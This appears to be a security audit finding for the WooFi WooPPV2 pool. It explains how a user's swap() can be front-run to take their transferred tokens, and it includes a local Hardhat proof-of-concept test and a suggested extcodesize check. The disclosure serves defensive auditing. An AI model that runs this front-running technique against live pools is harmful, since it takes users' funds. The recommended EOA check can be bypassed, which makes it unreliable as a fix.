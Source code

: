 ### by [CarlosAlegreUr](https://github.com/CarlosAlegreUr)

## Summary

EOAs swapping on WooPPV2 can be front-run so they lose their swapped funds and receive nothing.

> 📘 **Note** ℹ️: Also SmartContract addresses can suffer from this if they `transfer()` tokens and later
> `swap()` in 2 different transactions.

---

## Vulnerability Detail

The protocol allows for anyone to directly call to `WooPPV2`'s `swap()` but an EOA who uses it could get front-run and all his swapping funds could be stolen.

The user would `transfer()` the `from-token` he wants to get rid of to the pool and then call the `swap()` function to receive its `to-token` corresponding amount. But another user sees this and front-runs his swap with an identical one and, as the funds are already in the pool, the pool will detect it as a valid `swap()` and send the `to-tokens` to the front-runner's address.

This are the specific checks that will return true as the contract has received the funds:

- [At _sellBase()](https://github.com/sherlock-audit/2024-03-woofi-swap/blob/main/WooPoolV2/contracts/WooPPV2.sol#L431)

```solidity
  require(balance(baseToken) - tokenInfos[baseToken].reserve >= baseAmount, "WooPPV2: !BASE");
```

- [At _sellQuote()](https://github.com/sherlock-audit/2024-03-woofi-swap/blob/main/WooPoolV2/contracts/WooPPV2.sol#L478)

- [At _swapBaseToBase()](https://github.com/sherlock-audit/2024-03-woofi-swap/blob/main/WooPoolV2/contracts/WooPPV2.sol#L525)

And the execution will continue with the front-runner being able to chose the receiver of the swap with the only cost of gas fees.

## Impact

The impact is that valid users will lose their funds and receive nothing in return.

---

## Code Snippet

To run it, paste this test in the `./test/typescript/WooPPv2.test.ts` file, inside the `describe("wooPP swap", () => {})` test cases section, after the `beforeEach("Deploy WooPPV2", async () => {})` and run:

```bash
npx hardhat test test/typescript/WooPPv2.test.ts
```

<details> <summary> See code 👁️ </summary>

```typescript
    it.only("Front-run exploit", async () => {
      await btcToken.mint(user1.address, ONE.mul(3));
      const baseAmount = ONE.mul(1);
      const minQuoteAmount = ONE.mul(BTC_PRICE).mul(99).div(100);

      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      let userUsdt = await usdtToken.balanceOf(user1.address);
      let userBtc = await btcToken.balanceOf(user1.address);
      let userUsdt2 = await usdtToken.balanceOf(user2.address);
      let userBtc2 = await btcToken.balanceOf(user2.address);
      let wppUsdtSize = await wooPP.poolSize(usdtToken.address);
      let unclaimedFee = await wooPP.unclaimedFee();
      console.log("BEFORE SWAP");
      console.log("user1 usdt: ", utils.formatEther(userUsdt));
      console.log("user1 btc: ", utils.formatEther(userBtc));
      console.log("user2 usdt: ", utils.formatEther(userUsdt2));
      console.log("user2 btc: ", utils.formatEther(userBtc2));
      console.log("balanceOf WooPP usdt: ", (await usdtToken.balanceOf(wooPP.address)).div(ONE).toString());
      console.log("balanceOf WooPP btc: ", (await btcToken.balanceOf(wooPP.address)).div(ONE).toString());

      // User1 sends fromToken (btc now) to pool
      await btcToken.connect(user1).approve(wooPP.address, baseAmount);
      await btcToken.connect(user1).transfer(wooPP.address, baseAmount);

      console.log("User1 has sent btc to WooPP");
      console.log("user1 btc: ", utils.formatEther(await btcToken.balanceOf(user1.address)));
      console.log("balanceOf WooPP btc: ", (await btcToken.balanceOf(wooPP.address)).div(ONE).toString());

      console.log("User1 sends a swap to receive its usdt");
      console.log("User2 sees it and front-runs with the same swap but the `to` address is its own");

      // User2 sees the transaction and frontruns user1 with a swap tx before the swap of user1
      await wooPP
        .connect(user2)
        .swap(btcToken.address, quote.address, baseAmount, minQuoteAmount, user2.address, ZERO_ADDR);

      // User1 tries to swap but he has been front-run by user2 and reverts
      await expect(
        wooPP.connect(user1).swap(btcToken.address, quote.address, baseAmount, minQuoteAmount, user1.address, ZERO_ADDR)
      ).to.be.revertedWith("WooPPV2: !BASE");

      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      userUsdt = await usdtToken.balanceOf(user1.address);
      userBtc = await btcToken.balanceOf(user1.address);
      userUsdt2 = await usdtToken.balanceOf(user2.address);
      userBtc2 = await btcToken.balanceOf(user2.address);
      console.log("AFTER SWAP");
      console.log("user1 usdt: ", utils.formatEther(userUsdt));
      console.log("user1 btc: ", utils.formatEther(userBtc));
      console.log("user2 usdt: ", utils.formatEther(userUsdt2));
      console.log("user2 btc: ", utils.formatEther(userBtc2));
      console.log("balance WooPP usdt: ", (await usdtToken.balanceOf(wooPP.address)).div(ONE).toString());
      console.log("balance WooPP btc: ", (await btcToken.balanceOf(wooPP.address)).div(ONE).toString());
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
    });
```

 </details>

---

## Tool used

- Manual review.
  
---

## Recommendation

Restrict EOAs from interacting with the `WooPPV2`'s `swap()` function. Only allow contracts to do so by checking the codesize of `msg.sender`.

```solidity
function isEOA() public view returns (bool) {
   uint256 size;
   assembly {
       size := extcodesize(msg.sender)
   }
   return size == 0;
}
```

---
